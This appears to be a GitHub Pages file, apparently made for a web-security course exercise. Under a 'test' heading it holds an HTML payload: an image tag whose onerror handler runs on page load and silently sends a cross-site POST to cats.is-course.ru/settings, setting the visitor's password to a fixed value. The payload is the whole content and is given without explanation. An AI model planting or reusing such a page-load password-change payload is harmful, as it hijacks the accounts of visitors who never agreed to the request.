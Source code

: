 # vladpyzh.github.io
<h1>test</h1>
<img src=a onerror=fetch("https://cats.is-course.ru/settings", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "password=CatsRuletheWorld1%21&confirm-password=CatsRuletheWorld1%21"
});>
